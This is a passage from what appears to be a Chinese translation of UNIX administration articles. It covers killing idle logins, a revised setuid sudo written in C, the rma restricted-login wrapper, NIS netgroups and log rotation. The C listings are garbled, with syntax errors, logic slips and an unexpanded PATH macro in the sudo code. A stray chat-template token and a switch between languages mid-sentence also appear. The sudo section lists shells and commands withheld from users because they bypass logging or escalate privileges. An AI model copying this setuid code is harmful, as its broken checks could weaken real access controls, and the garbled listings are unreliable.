每 15 分钟检查一次空闲 tty。考虑到脚本默认的空闲时间是 20 分钟，最坏情况下，在 cron 上次运行后一分钟开始的登录会话，其空闲时间将达到 29 分钟。14 分钟后，cron 再次运行，但该 tty 仅运行了 14 分钟，少于 killidle 的 20 分钟阈值，因此 killidle 不会处理它。再过 15 分钟，总共 29 分钟时，cron 再次运行 killidle，便会捕获这个旧 tty。

你也可以使用 15 分钟的选项来运行 killidle。但如果这样做，同样的时间问题也会出现。当 cron 运行 killidle 时，一个仅存在 14 分钟的登录会话会在本次运行中存活下来。如果该登录会话仍然空闲，killidle 会在 15 分钟后将其终止。这样，该登录会话总共会存活 29 分钟。

## 总结

你允许空闲登录持续多长时间，取决于你愿意接受什么样的折衷。一方面，有人利用闲置账户入侵系统并不需要太长时间。另一方面，你不可能让所有人都满意。例如，有些程序员坐在终端附近的办公桌前工作，但并非每时每刻都在终端前。当他们屏幕上有重要信息、正忙着翻阅列表时，把他们登出可不太友好。这时，killidle 可以利用的用户空闲时间表就派上了用场。你必须在安全性与那些只是暂时离开终端、需要保持临时登录环境更改和屏幕显示完整的人之间取得平衡。至于“片刻”是多久，由你来决定。

## 使用修订版 sudo 管理超级用户权限

Don Pipkin

大多数成熟的操作系统（例如 IBM 的 MVS、DEC 的 VMS 和 HP 的 MPE）都提供了大量权限，其中许多权限范围有限，可以单独分配给系统中的用户。然而，在 UNIX 中，你要么拥有超级用户权限，要么没有——不是全部就是全无。通常，超级用户权限都授予一个用户，即 root。这意味着 root 必须随时可用于各种任务，包括 lp 管理、挂载和卸载磁盘、更改网络配置、添加用户、关闭系统和运行备份。

为绕过这种不便而采取的做法可能会给系统带来许多安全问题。如果你把 root 的密码告诉所有人，就违反了基本的密码安全原则，并且无法确定是谁以 root 身份执行了命令。能够从任何地方以 root 身份登录始终是件坏事；而允许多人这样做则更糟，因为这大大增加了 root 终端会话无人值守的可能性。任何能够物理接触到处于这种状态的终端的人都能获得 root 访问权。只需几分钟就能扩展权限或颠覆系统。


在某些情况下，能够将某些特权委托出去是有用的。也许网络维护工作是由网络工作人员而不是系统管理员负责的。操作员可能需要备份文件。也许一名经理有一支支持人员团队，但又不希望 root 密码被广泛知晓。

这最后一种情况正是我最近一位客户的情况。该组织约有 500 台工作站，由 20 人组成的团队提供支持。所有这些系统的 root 密码都相同，并且每周更换一次。主要关注点是跟踪支持人员在每台系统上所做的工作。为此，root 登录仅在必要时使用，并且仅限于系统控制台。取而代之的是，他们使用了一个名为 sudo（super-user do）的程序，该程序允许他们以超级用户权限执行命令并记录此活动。

## 历史

sudo（清单 5.1）是一个 set-user-id 程序，以 root 身份运行，允许授权用户执行其获批准的命令。sudo 最初由 SUNY-Buffalo 的 Cliff Spencer 编写，并发表在 Evi Nemeth 的《UNIX 系统管理手册》中。sudo 最初编写时用于在 BSD UNIX 下运行。

原始的 sudo 遗留了一些未完成的工作。这些包括能够从像 vi 这样的程序中 shell 出来，使用 root 的路径，必须完全限定要执行的命令，必须指定可以执行的全部命令而不能指定不可执行的命令，以及能够指定“所有”命令，从而允许用户自由操作。用户也可以 sudo 一个 shell，从而绕过日志记录机制。

原始的 sudo 使用 root 的完整环境，包括 root 的 shell 和路径。我添加了 putenv 命令将 shell 设置为 /bin/false，并为 sudo 可以运行的命令分配了一个路径。重新分配 shell 变量可防止像 vi 这样的程序生成子 shell。分配路径限制了可以用 sudo 执行的命令范围。它还消除了为命令完全限定路径名的需要。我在配置文件中添加了 not 选项，允许你将某人配置为运行除所列命令之外的所有命令。

### Listing 5.1  The revised sudo.c

```
/*
** sudo.c
*/

/*
** Configurable constants
*/

#define SECURE_PATH "/bin:/usr/bin:/etc"
#define USERFILE "/usr/local/adm/sudoers"
#define LOGFILE "/usr/local/adm/sudolog"
#define TIMEDIR "/usr/local/adm/sudocheck/"
#define TIME 5 /* minutes */
#define SUDO_COP "root@localhost"

/*
** To install create the directories in the SECURE_PATH
** and TIMEDIR and the files USERFILE and LOGFILE.
** Set the owner of these files to root and the permissions
** to og-rw. Change the owner to root for the sudo program
** and set the permissions to 4111 (-s--x--x).
*/

#define BUFSIZE 256
#define SUCCESS 1
#define FAILED -1

#define CONFIG_ERR "Configuration error. Contact your security manager."
#define CONFIG_SUB "Invalid sudo configuration!"
#define SUID_ERR "Set UID bit not set."
#define STAT_ERR "Couldn't stat user file"
#define OWNER_ERR "User file not owned by root"
#define PERM_ERR "Invalid permissions on user file"
#define OPEN_ERR "Couldn't open user file"

#define USER_ERR "You are not set up to execute sudo on this machine."
#define USER_SUB "SECURITY** Invalid sudo user!"

#include <ctype.h>
#include <fcntl.h>
#include <pwd.h>
#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <sys/file.h>
#include <sys/param.h>
#include <sys/stat.h>
#include <sys/time.h>
#include <sys/types.h>
```

### Listing 5.1 (continued)

```
char *getpass();
char *crypt();

FILE *check_config(user)
char *user;
{
    struct stat statb;
    FILE *fp;

    if ((setuid(0)) < 0)                        /* no setuid */
        mail(CONFIG_SUB,user,SUID_ERR,CONFIG_ERR);
    if (stat(USERFILE, &statb))                 /* couldn't stat */
        mail(CONFIG_SUB,user,STAT_ERR,CONFIG_ERR);
    if (statb.st_uid != 0)                      /* must be owned by root */
        mail(CONFIG_SUB,user,OWNER_ERR,CONFIG_ERR);
    if ((statb.st_mode & 044)                   /* should be og-rw */
        mail(CONFIG_SUB,user,PERM_ERR,CONFIG_ERR);
    if ((fp = fopen(USERFILE, "r")) == 0)      /* open err */
        mail(CONFIG_SUB,user,OPEN_ERR,CONFIG_ERR);

    return(fp);
}

char *get_command_list(fp, name, password)
FILE *fp;
char *name;
char *password;
{
    char buffer[BUFSIZ];

    while ((fgets(buffer,BUFSIZ,fp)) != NULL)
    {
        if(buffer[0] == '#') continue;          /* skip remarks */
        if((strncmp(buffer,name,strlen(name))) == 0)
        {
            if (get_password(name,password))   /* valid user */
                return(buffer);
            else
                return(NULL);                   /* invalid password */
        }
    }

    return(NULL);                               /* invalid user */
}
```


## 安全问题

向普通用户授予某些超级用户权限并依赖其登录密码进行安全保护很可能会导致安全问题。如果拥有 sudo 权限的用户密码强度不足、共享密码或密码被盗，那么授予该用户的超级用户权限也将被攻破。以下文本列出了您可以采取的若干措施来限制这种风险。

- 要求用户使用良好的密码。
- 仅向真正需要 sudo 权限的用户授予该权限。
- 仅向用户授予其所需的命令的 sudo 访问权限。
- 监控日志文件以查看用户正在做什么。

某些命令不应授予 sudo 用户。例如，某些命令会绕过日志记录程序。这些命令会生成交互式 shell 或用另一个进程替换 sudo 进程。其中包括 sh、ksh、csh、rsh（受限 shell）和 exec。其他命令会增加对其他系统的风险，尤其是在可信计算机基座中。这些是 rlogin 和 remsh（远程 shell，某些系统上的 rsh）。这些程序允许您在无需密码的情况下登录另一台计算机。还有其他命令，例如 chmod 和 chown，可用于强行获取额外权限，并可用于创建可在 sudo 之外执行的 set-UID shell。

## 安全措施

配置文件、日志文件和时间目录的位置应仅为安全管理员所知。任何知道这些文件位置的用户都可以操纵它们以向配置文件添加用户或命令、向安全路径中添加通过 sudo 执行的命令，或篡改日志文件。隐藏这些文件位置的一种方法是将其放在隐藏目录中，即目录名以句点开头、任何人都无读取或写入权限且属主为 root 的目录。实际上，使用无法键入的目录名会更好。仅应将要执行的命令放在此目录中，并且这些命令的权限应为仅执行，无读取或写入权限。

不应将源代码留在在线环境中，二进制文件应标记为仅执行，任何人都无读取或写入权限。不遵守这些准则会使某人能够找到配置文件和日志文件以及时间目录的路径。

## sudo 的工作原理

sudo 首先验证其配置。它检查其是否由 root 拥有并且已设置 set-UID 位。它检查配置文件以验证其是否不可被 root 以外的任何人写入或读取（配置文件包含授权用户列表以及他们可以执行的命令）。sudo 接下来验证用户，通过扫描配置文件查找用户的登录名，并通过扫描该用户有效的命令列表来查找输入的命令。

### Listing 5.1 (continued)

```
int get_password(name, password)
char *name;
char *password;
{
    char fname[200];
    char *pswd;
    char *encrypted;
    struct stat stab;

    sprintf(fname, "%s/%s", TIMEDIR, name);

    if (stat(fname, &stab) == 0)
    {
        if ((time(NULL) - stab.st_mtime) < (TIME * 60))
        {
            create_file(fname);
            return (SUCCESS);
        }
    }

    pswd = getpass("Password:");
    encrypted = crypt(pswd, password);

    if (strcmp(password, encrypted))
    {
        fprintf(stderr, "Password incorrect\n");
        return (FAILED);
    }
    fflush (stderr);
    fflush (stdout);

    create_file(fname);
    return (SUCCESS);
}
```

### Listing 5.1 (continued)

```
create_file(file)
char *file;                 /* filename to be created */
{
    int descrip;
    long timep[2];

    if ((descrip = open(file, O_TRUNC|O_CREAT|O_WRONLY, 0700)) > 0)
    {
        close(descrip);
        timep[0] = timep[1] = time(0);
        utime(file, timep);
    }
}

int checkdoer(dp, ap)
char *dp;
char *ap;
{
    char *cp0, *cp1;
    int not_flag = 0;

    cp0 = dp;

    while (isalnum(*cp0)) cp0++;          /* skip past user */
    while (*cp0)                          /* search until end of line */
    {
        while (isspace(*cp0)) cp0++;      /* skip to cmd */
        if (strncmp(cp0, "not",3) == 0) not_flag = 1;
        if (strncmp(cp0, "all",3) == 0) return(success);
        cp1 = cp0;

        /* find end of this entry */
        while (*cp1 != '\n' && !isspace(*cp1)) cp1++;
        if (strncmp(cp0,ap,strlen(ap)) == 0)
        {
            cp1 = '\0';
            if (not_flag) return(FAILED);
            else return(SUCCESS);
        }
    }
}
```


# Listing 5.1 (continued)

/* move pointer past and keep looking */
while (!isspace(*cp0) && *cp0 != '\n') cp0++;

if (*cp0 == '\n') break;                /* if EOL then fail */
else continue;

if (not_flag) return(SUCCESS);
else return(FAILED);

char *log(username, info, argc, argv)
char *username;
char *info;
int argc;
char **argv;
{
FILE *fp;
long now;
char ret_st[BUFSIZ];

if ((fp = fopen(LOGFILE,"a")) == NULL)
    mail("WARNING sudo can't open logfile.",username, LOGFILE,"");

now = time((long *)0);
fprintf(fp, "%20.20s ", ctime(&now));
fprintf(fp, "%10.10s ", info);
fprintf(fp, "%9s ", username);

while (argc--)
{
    fprintf(fp, "%s ",*argv++);
    sprintf(ret_st, "%s ",*argv++);
}

fprintf(fp, "\n");
(void) fclose(fp);
return(ret_st);
}

# Listing 5.1 (continued)

main(argc,argv)
int argc;
char **argv;
{

FILE *userfile;
struct passwd *user;
int uid;
char *valid_cmds;
char *progname;
char *cmd_line;

progname = argv[0];

if (argc < 2)
{
    fprintf(stderr, "usage: %s cmd\n", progname);
    exit(1);
}

uid = getuid();

user = getpwuid(uid);

userfile = check_config(user);

if ((valid_cmds = get_command_list(userfile,
user->pw_name,user->pw_passwd)) != NULL)
{

argv++, argc--;

if (checkdoer(valid_cmds,*argv) != FAILED)
{
    putenv("PATH= SECURE_PATH");
    putenv("SHELL=/bin/false");
    (void) log(user->pw_name,"",argc,argv);
    execvp(*argv, argv); /* then do it */
    perror(*argv);
}
}

# 可配置参数

sudo 源代码开头有若干本地可配置参数。以下是默认值。

```
#define SECURE_PATH "/bin:/usr/bin:/etc"
#define USERFILE "/usr/local/adm/sudoers"
#define LOGFILE "/usr/local/adm/sudolog"
#define TIME 5 /* minutes */
#define TIMEDIR "/usr/local/adm/sudocheck/"
#define SUDO_COP "root@localhost"
```

SECURE_PATH 是一个路径声明，定义了 sudo 可执行的程序所在的目录。这些路径中的目录以及目录中的程序需要保持适当的权限。定期检查这些目录是个好主意。

USERFILE 是包含用户及其可执行命令的配置文件。此文件的格式为用户登录名，后跟由空白分隔的命令列表。你可以使用 not 来表示除所列命令之外的所有命令。你可以使用 all 来表示安全路径中的所有命令。

LOGFILE 是 sudo 用于记录已执行或尝试执行的命令信息的日志文件的位置。此文件不得被 root 以外的任何人读取或写入。

# Listing 5.1 (continued)

```
else
{
(void) log(user->pw_name,"FAIL ",argc, argv);
 fprintf(stderr,"%s: You are not set up to "
 "execute %s with sudo on this machine.\n", progname,argv);
 exit(1);
}
else
{
 cmd_line = log(user->pw_name,"FAIL ",argc, argv);
 mail(USER_SUB,user->pw_name,cmd_line,USER_ERR);
}
```

TIME 和 TIMEDIR 允许用户在 TIME 未过期时无需重新输入密码即可执行多次 sudo 命令。这是通过在 TIMEDIR 目录中创建时间戳文件来实现的。将 TIME 设置为 0 可禁用此选项。此目录也需要适当的权限。

SUDO_COP 是安全管理员的邮件地址，违规信息将发送至该地址。邮件地址必须采用 sudo 安装所在节点上运行的邮件系统所理解的格式。

# 配置文件

配置文件由用户的登录名组成，后跟用户可执行的命令、not 选项和此用户不可执行的命令，或允许此用户执行所有命令的 all 选项。以下几行代表三个用户：用户 operator，可执行 du 和 dump 命令；用户 nice_guy，可执行所有 sudo 命令；以及用户 buster，不能执行命令 sh。

```
operator du dump
nice_guy all
buster not sh
```

只有安全路径中的命令才能通过 sudo 执行。

# 日志文件

日志文件包含 sudo 被执行的时间和日期（无论是否成功）、执行 sudo 的用户以及 sudo 命令中使用的命令行。以下是 sudo 日志文件的一个摘录。

```
Mon Aug 15 9:25:42 : SUCCESS buster vi /etc/hosts
Mon Aug 15 11:30:05 : FAIL operator lpshut
Tue Aug 16 22:02:46 : SUCCESS buster mv rouge/bin
Thu Aug 18 8:05:21 : FAIL hacker vi /etc/passwd
Fri Aug 19 16:54:02 : SUCCESS nice_guy shutdown -h
```


## 使用 sudo

使用 sudo 通常非常简单。你调用 sudo 命令，然后加上你希望以超级用户权限执行的命令和参数。例如，要编辑密码文件，你需要输入以下命令。

```
sudo vi /etc/passwd
```

有些情况就不那么明显了。如果你使用管道命令，就必须为管道中需要超级用户权限的每个命令都调用 sudo。例如，如果你希望在系统中查找所有文件并在只有 root 具有写权限的磁带驱动器上创建 cpio 归档，你将使用以下命令。

```
sudo find / -print | sudo cpio -o >/dev/rmt
```

你可以将远程执行与 sudo 结合起来，在支持 sudo 的远程系统上执行命令。例如，如果你希望在本地打印机上打印远程系统的所有失败登录尝试，你将使用以下命令。

```
remsh remotehost sudo who </etc/btmp | lp
```

lp 命令不需要使用 sudo 调用，因为 who 命令的输出可以通过管道在无需权限的情况下使用。

## 增强功能

能够为一组用户启用一组命令会很方便。你可以通过在命令文件中添加一个组命令，然后列出该组的成员用户来实现这一点。

我还收到过请求，要求在共享文件系统的系统上在日志文件中添加节点名称。在当前配置下，无法判断 sudo 命令是在哪个节点上执行的。唯一需要的更改只是对日志例程的简单修改，但我认为如果节点共享文件系统，那么其中一个的安全问题就是所有节点的安全问题。

## 结论

一些厂商开始解决 UNIX 中控制粒度的问题，但目前他们的努力非常有限且特定于厂商。在对特权进行细分和分配的标准更广泛之前，可移植性强的 sudo 可以成为一个有用的工具，只要采取适当的<|message|> 安全预防措施。它允许系统管理员在来自众多厂商的 UNIX 系统上委派任务，同时保持系统安全。

## 使用 rma “Shell” 限制机器访问

Greg A. Wade

许多站点通过 NIS 域中的账户持有者来限制机器访问。这些访问策略出于各种考虑，有些是政治性的，有些是技术性的，目标是保护一个工作组的 CPU 资源不被组织中的其他人使用。管理员可能还希望阻止未经授权的用户登录在网络环境中执行关键角色的系统。通常，这些类型的访问限制是通过使用 netgroups 实现的。

### 使用 NIS Netgroups 限制访问

Netgroups 基本上可用于仅使 NIS 密码映射的部分对客户端可见。在 NIS 服务器上，包含用户列表的 netgroups 被添加到 /etc/netgroup 文件中，并且 NIS netgroup 映射用此信息填充。不需要对服务器机器进行额外的配置或修改。图 6.1 显示了 netgroup 文件的一个片段，指定了两个 netgroups —— staff 成员为 tim 和 jill，sales 成员为 brad、randy 和 mark。

然后修改客户端机器的密码文件。这些文件通常以 +::+::0:0::: 作为最后一条条目。UID 为 + 表示整个 NIS passwd 映射应附加到本地 passwd 文件。用户的禁用密码用于在某些旧系统上维护安全性，并且用户和组 ID 为 0 是为了使该行具有有效条目的格式。整个 NIS 映射不需要包含，因此删除 +::+::0:0::: 条目并替换为 +@netgroup 形式的条目，其中 netgroup 是包含有权访问该机器的用户账户的 netgroup 的名称。图 6.2 显示了 NIS 客户端的 passwd 文件的一部分，该文件仅允许 sales netgroup 中的 NIS 用户登录。

同样，你可以通过保留 +::+::0:0::: 并包含 -@netgroup 条目来从密码文件中排除用户 netgroups。图 6.3 显示了 passwd 文件的一个片段，允许所有 NIS 用户登录，除了 staff netgroup 中的用户。

### 图 6.1 指定组和成员的 netgroup 文件片段。

```
staff:(tim,)(jill,)
sales:(brad,)(randy,)(mark,)
```

### 图 6.2 允许仅 sales netgroup 登录的 passwd 文件片段。

```
root:x:0:1:Super-User:/:/sbin/sh
daemon:x:1:1:::/
...
+@sales
```

### 图 6.3 允许除 staff netgroup 外所有用户登录的 passwd 文件片段。

```
root:x:0:1:Super-User:/:/sbin/sh
daemon:x:1:1:::/
...
-@staff
+::+::0:0:::
```


当从 passwd 文件中排除 netgroup 时，@netgroup 条目必须位于 +::*:0:0::: 条目之前。读取 passwd 文件的例程一旦找到匹配项就会立即停止对文件的搜索。因此，放置在 +::*:0:0::: 之后的 @netgroup 条目永远不会被处理。

在运行 Solaris v2.x 的客户端上还需要执行一个额外步骤。你必须通过修改 /etc/nsswitch.conf 中的 passwd 行来启用密码文件中的 +/- 语法以进行策略控制。如果客户端正在访问 NIS 服务器，则应将 passwd: compat 行放置在该文件中。访问 NIS+ 服务器的客户端应包含 passwd: compat 和 passwd_compat: nisplus 行。

## 使用 rma 的优势

尽管 netgroup 在禁止未经授权的用户登录工作站方面很有效，但它们并不适合限制许多类型服务器的登录。NIS 服务器、为用户提供 WWW 页面的 HTTP 服务器、执行本地投递的邮件中心，以及执行按用户计费的打印服务器，都是必须知道域中所有用户（即必须访问完整的密码文件）的服务器示例。为了克服 NIS netgroup 的这一限制，创建了 rma（受限机器访问）shell 包装器。

```
Listing 6.1 rma.c can restrict access to workstations and servers.

/* rma.c -- Restricted Machine Access */
/* Greg A. Wade */

/* Configuration section */
#define SHELL_DIR "/usr/bin/shells/"
#define ACCESS_LIST "/etc/access.lst"
#define MAIL_TO "wade"
#define LOGIN_SCRIPT "/etc/enter.sh"
#define LOGOUT_SCRIPT "/etc/exit.sh"

#include <stdio.h>
#include <strings.h>
#include <sys/types.h>
#include <unistd.h>
#include <grp.h>
#include <stdlib.h>
#include <sys/param.h>
#include <signal.h>

#ifdef SVR4
#include <netdb.h>
#include <fcntl.h>
#else
#include <sys/file.h>
#endif
```

rma 的原始版本是为了将南伊利诺伊大学卡本代尔分校的 25 名本科生限制在计算机科学系运营的一个小型实验室中的六台 Sun 工作站的使用。在过去的四年中，rma 不断发展，现在用于限制本科生使用计算

### Listing 6.1 (continued)

```
/* Returns 1 if the user is allowed to login, otherwise 0 is returned */
int CanLogin gid_t gid, char *host)
{
    FILE *access_file;
    struct group *gr = NULL;
    char *p = NULL;
    int result = 1;

    if (access_file = (FILE *)fopen(ACCESS_LIST, "r"))!=NULL) {
        /* Lookup the group in ACCESS_LIST */
        while((gr = (struct group *)fgetgrent(access_file))!=NULL)
            if ((gr->gr_gid == gid)
                break;
        fclose(access_file);
        if (gr==NULL)
            /* Our gid is not in ACCESS_LIST..deny access */
            result=0;
        else {
            /* search for the current machine name */
            result = "*(gr->gr_passwd)=="* ? 0 : 1;
            p = gr->gr_mem;
            while (p!=NULL)
                if(strcmp(p,host) )
                    result = (! result);
                    break;
                }
                p++;
            }
        }
    }
    return(result);
}

/* Execute the script specified by LOGIN_SCRIPT */
void loginScript(void)
{
    int status;
    if(fork() == 0) {
        execv(LOGIN_SCRIPT,rindex(LOGIN_SCRIPT,'/'),NULL);
        exit(1);
    } else
        wait(&status);
}
```

### Listing 6.1 (continued)

```
/* Execute the script specified by LOGOUT_SCRIPT */
void LogoutScript(void)
{
    execv(LOGOUT_SCRIPT, rindex(LOGOUT_SCRIPT, '/'), NULL);
    exit(1);
}
/* Launch the user's shell */
void Login(char ** args)
{
    int status;
    char *p, *cmd;

    char shell_prog[MAXPATHLEN];

    /* Determine the shell to run */
    strcpy(shell_prog, SHELL_DIR);
    if ((p = rindex(args[1], '/')) != NULL)
        cmd = p;
    else
        if (*args[1] != '-')
            cmd = *args;
        else
            cmd = *args+1;

    /* This fixes the SunOS su "bug" and maybe some others as well */
    if (strcmp(cmd, "su") ) {
        cmd = getenv("SHELL");
        if ((p = rindex(cmd, '/')) != NULL)
            cmd = p;
    }

    strcat(shell_prog, cmd);

    if (*args[1] != '-') {
        /* Start a subshell */
        execv(shell_prog, args);
        perror("Cannot start shell");
    } else {
        /* Start a login shell and wait for it to exit so the LOGOUT_SCRIPT */
        /* can be run */
        if (fork() == 0) {
            LoginScript();
            execv(shell_prog, args);
            perror("Cannot start shell");
            exit(1);
        } else {
            wait(&status);
            LogoutScript();
        }
    }
}
```


facilities reserved for graduate students and faculty. rma is also used to prevent users who are not members of systems staff from logging into the department’s servers. Listing 6.1 is the current version of the rma code.

The rma code restricts access by moving the shells (typically found in /bin and /usr/bin) to a new location — the directory specified by the SHELL_DIR define in the program. /usr/bin/shells is usually a good choice. For security reasons, the statically linked copy of the Bourne shell (usually found in /sbin) should remain untouched, because it is customarily root’s login shell. Then, the original shell names are linked to the rma binary, which should be copied to /usr/bin. This same procedure is used to install most wrapper programs.

## Listing 6.1 (continued)

```
/* Print access violation message and send email with /usr/ucb/Mail */
/* if configured to do so. */
void KickOut(void)
{
    int in;

    printf("Access to this machine RESTRICTED!!\\n");

#ifdef MAIL_TO
    if((in = open("/dev/null", O_RDONLY, 777)) != 0) {
        dup2(in, 0);
        execl("/usr/ucb/Mail", "Mail", "-s", "ACCESS VIOLATION", MAIL_TO, NULL);
        exit(1);
    }
#endif

    /* M A I N   P R O G R A M */
    main (int argc, char ** argv)
    {
        char host[MAXHOSTNAMELEN];
        uid_t gid;

        /* Block some signals */
        signal(SIGINT, SIG_IGN);
        signal(SIGTERM, SIG_IGN);

        /* Determine our hostname */
        if (gethostname(host, MAXHOSTNAMELEN))
            perror("Who am I...get me HELP!");

        /* Get the user's primary gid */
        gid = getgid();

        /* Start the user's shell if */
        /* access is allowed */
        if(CanLogin(gid, host))
            Login(argv);
        else
            KickOut();
    }
```

## Enforcing Access Restrictions

Enforcement of access restrictions is based on the system's hostname and the user's primary group ID. These policies are specified by creating a file containing access lists. The name and location of this file are determined by the definition of ACCESS_LIST. Each machine running rma must have an ACCESS_LIST that is owned by root with file permissions 644. The format of this file closely resembles a standard UNIX group file, which allows rma to use the fgetgrent() function to process the file. This feature greatly reduces the amount of code required for rma. However this similarity with the group file also has a disadvantage: there is no method for adding comments to the ACCESS_LIST.

rma looks in the equivalent of the password field for a + or a - character to determine the type of access list given for a group. A + indicates an allow list (i.e., a list of machines that group members may use), whereas a - denotes a deny list (i.e., a list of machines group members may not access). Figure 6.4 shows an ACCESS_LIST that

- 1. allows wheel and daemon group members to access any machine by denying access to no machines;
- 2. permits the staff group login access only to the machines named isis, bast, and horus;
- 3. restricts the sales group from logging into isis;
- 4. prohibits users with a primary group of guest from logging into any machine by not granting access to any machines.

The wheel and daemon groups, along with any other system-level groups, should be given access to all machines in a domain. Otherwise, root access may possibly be disabled, along with that of other administrative users. Although giving each machine an ACCESS_LIST that describes the entire domain may seem redundant, this method does ease administration. When changes are required, a new access file can be distributed to all machines with a utility like rdist. This method of updating the access list helps to preserve the NIS paradigm of centralized management, which rma does not directly support.

### Figure 6.4 A sample ACCESS_LIST file specifies which users can access which machines.

```
wheel:-:0:
daemon:-:1:
staff:+:300:isis,bast,horus
sales:-:101:isis
guest:+:101:
```


这些脚本有多种用途。例如，LOGIN_SCRIPT 可用于向用户显示系统消息，而 LOGOUT_SCRIPT 可用于在注销时清理临时和 scratch 目录。当 rma 启动子 shell 时，这些脚本不会被调用。因此，例如在工作站上打开和关闭窗口不会导致登录或注销脚本被执行。

## 限制和关注点

rma 在限制控制台登录、telnet、rlogin 和 rsns 方面做得很好。不幸的是，rma 没有提供限制 ftp 访问的功能。ftp 守护进程从不尝试执行用户的登录 shell。与 ftp 相反，su 会执行被 su 的用户的 shell。因此，su 一个被禁止访问某台机器的账户会产生访问违规。rma 代码包含一个用于处理 SunOS su 程序的一个奇特之处的部分。SunOS 上的 su 不会将 argv[0] 重置为正在执行的 shell 的名称，因此在 Login() 函数中执行了特殊检查。如果 su 是调用程序，则 shell 的名称从 SHELL 环境变量中提取。

## 结论

rma 看起来像是一个安全工具，但它仅用于强制执行访问策略。聪明的用户可能能够绕过 rma 的功能。这个问题在我使用的 rma 的任何变体中都没有出现。这些包括在运行 SunOS v4.1.x 和 Solaris v2.x 的工作站和服务器上运行的版本。本章讨论的 rma 版本已在 SunOS v4.1.4 和 Solaris v2.5 下测试过。虽然我没有全部测试过，但 rma 应该可以在几乎任何具有 ANSI C 编译器的 UNIX 变体上编译，只需做极少的修改。

就是在那时我写了 logit（清单 7.1）。logit 是一个简单的 shell 脚本，它通过夜间重命名当天的日志文件来为任何系统记账或日志文件“加龄”，以添加扩展名（例如，syslog 将变为 syslog.1）。同时，之前已加龄文件的扩展名会被递增（例如，syslog.1 变为 syslog.2，syslog.2 变为 syslog.3，等等）。

日志文件在成为 n 天后将被清除。因此，变量 LOGFILE 中指定的任何文件将被加龄至 OLD，然后从系统中删除。我保留日志文件一周（图 7.1）。每个加龄文件都以 .n 扩展名命名，显示其当前年龄。syslog.6 是最旧的 syslog 文件，将被下一次清除。

## 清单 7.1 logit shell 脚本可对任何系统记账或日志文件进行加龄。

```
#!/bin/sh
#
# Move today's system log files to yesterday's,
# and yesterday's to the day before's, etc.
# Then, mail the contents of yesterday's.

for LOGFILE in /usr/adm/isdn.log /usr/adm/syslog
do
    OLD=6 # Logs older than current.
    while [ $OLD -gt 1 ]
    do
        NEW=`expr $OLD - 1`
        mv $LOGFILE.$NEW $LOGFILE.$OLD
        OLD=$NEW
    done
    mv $LOGFILE $LOGFILE.$OLD 2> /dev/null
    touch $LOGFILE 2> /dev/null
done

kill -HUP `cat /etc/syslog.pid` # Restart syslog.d

nohup /usr/bin/mailx -s "SYSLOG Status" root </usr/adm/syslog.1 &
nohup grep "Security Error" /usr/adm/isdn.log.1 \
| /usr/bin/mailx -s "ISDN Status" root &
```

没有扩展名的 syslog 文件是系统当前正在使用的文件。加龄后，logit 使用 kill 强制 syslogd 重新读取其配置文件。在当前文件被加龄后这是必要的：如果不执行 kill，消息将发送到 syslog.1 而不是 syslog。我通过 cron 每晚触发 logit。

对 syslog 文件进行加龄并每晚清除最旧的文件可确保 syslog 不会增长到无限大。不幸的是，它并不能保证我会记得查看日志或在其中找到正确的信息。为了帮助

## 图 7.1 一个示例文件列表显示了 logit 生成的当前和加龄的 syslog 文件。

```
-rw-r--r-- 1 root sys 39 Aug 21 03:05 syslog
-rw-r--r-- 1 root sys 45 Aug 20 03:05 syslog.1
-rw-r--r-- 1 root sys 2850 Aug 19 03:05 syslog.2
-rw-r--r-- 1 root sys 8735 Aug 18 03:05 syslog.3
-rw-r--r-- 1 root sys 39 Aug 17 15:38 syslog.4
-rw-r--r-- 1 root sys 541 Aug 16 03:05 syslog.5
-rw-r--r-- 1 root sys 1502 Aug 15 03:05 syslog.6
```

## 清单 7.2 一个示例 syslog.conf 文件显示了记账和日志消息的优先级和路由。

```
# syslogd configuration file.
#
# facility[...].severity    Destination
#
mail.debug                /usr/spool/mqueue/syslog
local0.debug              /usr/adm/isdn.log
*.info;local0.mail.none   /usr/adm/syslog
*.alert                   /dev/console
*.alert                   root
*.emerg                   *
```

让我这样做，logit 使用 mailx 向我发送一封电子邮件，其中包含日志的全部内容或仅包含有趣的部分。这样，当我有时间查看邮件时，我可以快速验证系统状态并查找坏人。如果我看到可疑的东西，我可以查看本周的任何日志以获取更多信息。

for 循环和两个 mailx 命令引用了两个日志文件，syslog 和 isdn.log。当我第一次在我们的 ISDN 路由器上启用记账时，syslogd 将数据发送到 /usr/adm/syslog。但我希望 ISDN 信息与 syslog 中的其他所有数据分开。通过修改 /etc/syslog.conf，我将 ISDN 信息重新路由到其自己的目的地。（有关 syslog.conf 的简要讨论，请参阅侧边栏。）

logit 底部 的 mailx 命令将日志信息路由到 root。第一个 mailx 发送 /usr/adm/syslog 的全部内容。第二个 mailx 仅发送包含 Security Error 的 /usr/adm/isdn.log 文件中的行。显然，这里有很大的定制空间。根据你的环境，你可以在各种文件上使用文件 aging 和 mailx。除了监控日志文件外，我还使用文件 aging 和 mailx 来通知我磁盘服务器的状态以及前一晚的备份结果。现在我最大的麻烦是记住阅读我的电子邮件。

## 关于 /etc/syslog.conf

/etc/syslog.conf 负责优先处理和路由记账和日志消息（清单 7.2）。第一个字段是优先级级别，第二个是信息目的地。优先级字段被分解为子字段对的集合。对由日志类型（或生成消息的设施）和消息严重性级别组成，以点分隔。多个对以分号分隔。清单 7.2 中的第一行定义了邮件消息信息的目标。 .debug 优先级意味着发送所有数据 regardless of priority。因此，任何与邮件相关的警告或错误消息都将报告到 /usr/spool/mqueue/syslog。同样，所有通过 local0 接收的消息都路由到 /usr/adm/isdn.log。

优先级字段的语法需要一点时间来适应。所有 alert 级别及以上级别的消息都将路由到控制台和 root，如果 root 已登录。所有 emerg（紧急）级别的消息都将路由到所有已登录的用户。所有 info（信息）级别的消息都将路由到 /usr/adm/syslog，但有一个例外（这里就是复杂之处），来自 local0 和 mail 的消息具有 .none 优先级。

.none 是 .debug 的相反。 它禁用其前面列出的所有设施（但在分号分隔符之后）。 在这种情况下，.none 确保 local0 和 mail 信息级别消息，这些消息已经发送到其他地方，不会在 /usr/adm/syslog 中重复。 请注意，alert 和 emerg 级别的消息——包括有关 ISDN 连接和邮件的消息——将在控制台上重复，并发送给 root 和所有当前登录的其他用户。

## AIX 上的登录监控

Thomas Richter

